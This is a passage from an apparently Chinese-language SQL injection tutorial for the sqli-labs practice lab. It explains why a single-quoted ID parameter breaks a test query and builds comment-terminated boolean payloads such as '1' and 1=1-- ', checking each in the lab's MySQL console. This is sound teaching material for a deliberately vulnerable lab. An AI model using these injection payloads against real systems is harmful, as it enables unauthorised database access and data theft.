```
echo '<font size="5" color="#FFFF00">';
echo "</br></font>";
echo '<font color= "#0000ff" font size= 3>';
}
}
else { echo "Please input the ID as parameter with numeric value";}
?>
```

重点就在这句 SQL 语句上：

```
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

注意这里有单引号，所以是字符型注入，我们将前面的测试语句代入：

```
SELECT * FROM users WHERE id='1'and 1=1' LIMIT 0,1
```

此处单引号未得到闭合，导致了语法错误，这正是前面测试方法失败的原因。我们可以考虑用--注释掉。**在 URL 请求里要注意在后面加 +，+ 在 URL 中相当于空格，加了 + 才能有效注释**。最后我们得到构造语句：

```
SELECT * FROM users WHERE id='1'and 1=1 
```

为了方便验证 SQL 语句，推荐你直接进入 Docker 容器的 MySQL 进行测试：

```
$ sudo docker ps
CONTAINER ID        IMAGE                COMMAND             CREATED             STATUS              PORTS                          NAMES
ea6ec615a39e        acgpiano/sqli-labs   "/run.sh"           29 hours ago        Up 29 hours         0.0.0.0:80->80/tcp, 3306/tcp   sqli-labs
$ sudo docker exec -it ea6ec615a39e /bin/bash
$ root@ea6ec615a39e:/
mysql> use security;
mysql> SELECT * FROM users WHERE id='1' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
mysql> SELECT * FROM users WHERE id='1 and 1=1' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set, 1 warning (0.00 sec)
mysql> SELECT * FROM users WHERE id='1 and 1=2' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set, 1 warning (0.00 sec)
mysql> SELECT * FROM users WHERE id='1' and 1=2'' LIMIT 0,1;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' LIMIT 0,1' at line 1
mysql> SELECT * FROM users WHERE id='1' and 1=2-- ' LIMIT 0,1;
Empty set (0.00 sec)
mysql> SELECT * FROM users WHERE id='1' and 1=1-- ' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
```